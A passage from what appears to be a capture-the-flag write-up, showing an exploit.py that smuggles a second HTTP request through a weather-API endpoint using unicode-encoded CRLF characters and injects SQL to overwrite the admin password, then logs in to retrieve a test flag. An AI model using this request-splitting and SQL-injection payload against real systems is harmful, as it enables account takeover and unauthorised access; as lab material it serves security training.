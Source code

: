 
Now I need to change a few things in the above to send it, I need to replace the following:

| Character | Replaced wtih |
| --- | --- |
| space | `\u0120` |
| newlines | `\u010D` |
| returns | `\u010A` |
| single quotes | `%27` |
| double quoets | `%22` |

After modifying the above, I am ready to create exploit.py:

```python
import requests

url = 'http://127.0.0.1:1337'

username = 'admin'
password = "PWN') ON CONFLICT(username) DO UPDATE SET password = 'admin123';"

en_password = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(username) + len(en_password) + 19

payload = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120'+str(contentLength)+'\u010D\u010A\u010D\u010Ausername=admin&password='+en_password+'\u010D\u010A\u010D\u010AGET\u0120'

r = requests.post(url + '/api/weather',json={'endpoint':payload,'city':'Pwntown','country':'PWN'})


def get_flag():
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    flag = requests.post(url+"/login", headers=headers, data="username=admin&password=admin123")
    return(flag.text)

print(r.text)
print(get_flag())
```


Now, when I run this script I am able to get the flag from my local instance with no modifications:

```bash
└─$ python exploit.py 
{"error":"Could not find Pwntown or PWN"}
HTB{f4k3_fl4g_f0r_t3st1ng}
```


# End Goal = exploit target
